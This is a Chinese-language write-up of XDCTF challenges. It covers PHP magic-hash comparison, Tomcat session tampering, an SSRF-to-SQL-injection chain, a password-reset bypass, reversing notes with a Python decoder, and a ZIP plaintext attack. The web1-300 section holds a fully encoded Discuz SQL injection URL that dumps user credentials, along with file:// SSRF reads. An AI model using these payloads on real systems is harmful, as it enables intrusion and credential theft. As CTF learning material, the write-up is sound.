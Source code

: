 ##XDCTF

###web1-100
	反混淆
```php
$test=$_GET['test']; $test=md5($test); if($test=='0') { print "flag{xxxxxx}"; } else print "you are falied!"; print $test; 
```


	md5('240610708') 's result is 0e462097431906509019562988736854.

	md5('QNKCDZO') 's result is 0e830400451993494058024219903391

	flag:XDCTF{XTchInaIqLRWlJF0RI59aoVr5atctVCT}


###web1-200
	
	tomcat，session
	
	http://flagbox-23031374.xdctf.win:1234/examples/servlets/servlet/SessionExample
	给自己添加个login=true,user=Administrator
	XDCTF{2b5b7133402ecb87e07e85bf1327bd13}

###web1-300

	.user.ini找到wwwroot目录
	link参数可SSRF
	GET /index.php?link=file:///home/wwwroot/133.130.90.188/index.php
	查hosts发现		9bd5688225d90ff2a06e2ee1f1665f40.xdctf.com
	扫端口发现这个站在3389
	十个discuz，read有个.user.ini，看看这个有没有
	link=http://9bd5688225d90ff2a06e2ee1f1665f40.xdctf.com:3389/.user.ini
	在这里： open_basedir=/home/wwwroot/dz72:/tmp/:/proc/
	直接打exp

	http://133.130.90.188/?link=http://9bd5688225d90ff2a06e2ee1f1665f40.xdctf.com:3389/faq.php?action%3Dgrouppermission%26gids%5B99%5D%3D%2527%26gids%5B100%5D%5B0%5D%3D%2529%2520and%2520%2528select%25201%2520from%2520%2528select%2520count%2528*%2529%2Cconcat%2528%2528select%2520concat%25280x5E5E5E%2Cusername%2C0x3a%2Cpassword%2C0x3a%2Csalt%2529%2520from%2520cdb_uc_members%2520limit%25200%2C1%2529%2Cfloor%2528rand%25280%2529*2%2529%2C0x5E%2529x%2520from%2520information_schema.tables%2520group%2520by%2520x%2529a%2529%2523

	admin:XDCTF{bf127a6ae4e2_ssrf_to_sqli}:99bc3c1

###web2

	发现.git存在，不过都是delete file
	到1.0里面对着hash把文件拖回来
	就可以代码审计了。。。

###web2-100
	问题在Auth.php  public function handle_resetpwd()
	注册->申请改密码->改密码的链接抓包->email=xdsec-cms@xdctf.com&verify[]=fb02d3d0965f0d24b90409dba97e0cb2->登录即可
	Congratulation, this is the [XDSEC-CMS] flag 2

	XDCTF-{i32mX4WK1gwEE9S9Oxd2}

	hint:
	admin url is /th3r315adm1n.php

###web2-200
	
	这个在index.php里
	XDCTF-{raGWvWahqZjww4RdHN90}

###re-100

	这题首先有个反调试 我是直接暴力nop掉了
	然后看算法 跑动态的时候发现ida里面那一长串AAAAAAAAAAAAAAAB的地方其实只是i % 12
	接下来本来应该就简单了 写个解密的算法跑一遍
	结果出来这么个东西：R UbXfPbt7jb
	ida动态调一遍发现还有一个长得类似的函数 异或的部分少异或一个7
	然后改改代码 跑出来：U'Re_AwEs0Me
	这次明显对了 结合XDCTF{input}和提示的全小写
	得到flag：XDCTF{u're_awes0me}

###re-200

	有一段SMC 强行dump掉
	接下来单步看全是明文比对 没有什么难度 中间有段时间检测改跳即可
	得到flag：XDCTF{Congra_tUlat$eyOu}

###re-300
	
	下下来看到一段超长的python一句话
	十分痛心地干了半个晚上

	import string
	import sys
	import functools
	from collections import defaultdict
	
	table = string.printable.strip()
	
	
	def getbit(p, pos):
	    cpos = pos / 8
	    bpos = pos % 8
	    return p[cpos] >> bpos & 1
	
	
	def setbit(p, pos, value):
	    cpos = pos / 8
	    bpos = pos % 8
	    p[cpos] |= value << bpos
	
	
	def encrypt():
	    fin = open("flag.txt", 'r')
	    origin = fin.read().strip()
	    data = []
	    for i in origin:
	        data.append(table.index(i)+1)
	    print(data)
	    buf = list(map(lambda x: 0, data))  # same length buf
	    _len = len(data) * 6
	    for i in xrange(_len):
	        j = i / 6 * 8+i % 6
	        setbit(buf, i, getbit(data, j))
	    print(buf)
	
	
	def decrypt():
	    f = open("flag.enc", 'rb')
	    data = f.read()
	    data = [ord(x) for x in data]
	    _len = len(data) * 6
	    buf = list(map(lambda x: 0, data))  # same length buf
	    used = [False for i in xrange(_len/6*8)]
	    for i in xrange(_len):
	        j = i / 6 * 8 + i % 6
	        bit = getbit(data, i)
	        setbit(buf, j, bit)
	        used[j] = True
	    unused = []
	    for n, i in enumerate(used):
	        if not i:
	            unused.append(n)
	    print ''.join([table[i-1] for i in buf])
	    for i in unused:
	        if i <= 38:
	            continue
	        try:
	            new_buf = buf[:]
	            setbit(new_buf, i, 1)
	            print ''.join([table[m-1] for m in new_buf]), i, 1
	        except IndexError:
	            pass
	
	    # setbit(buf, 29, 0)
	
	
	if __name__ == '__main__':
	    decrypt()

	然后把输出的比对+脑洞猜出来大概是one-lined python is awesome
	得到flag：xdctf{0ne-l1n3d_Py7h0n_1s_@wes0me233}

###misc-100
	
	根据主办方的提示 用braintools
	bftools decode braincopter <filename>这条命令解出来一段brainfuck
	扔到网上跑出来flag：XDCTF{ji910-dad9jq0-iopuno}

###misc-200

	先修复zip
	得到一个含有一个不加密的readme的zip
	然后用Plain-text Attack
	这里直接用Advanced Archive Password Recovery就行
	拿到flag：XDCTF{biiubiiiiiiiiiiiiiiiu&ddddyu}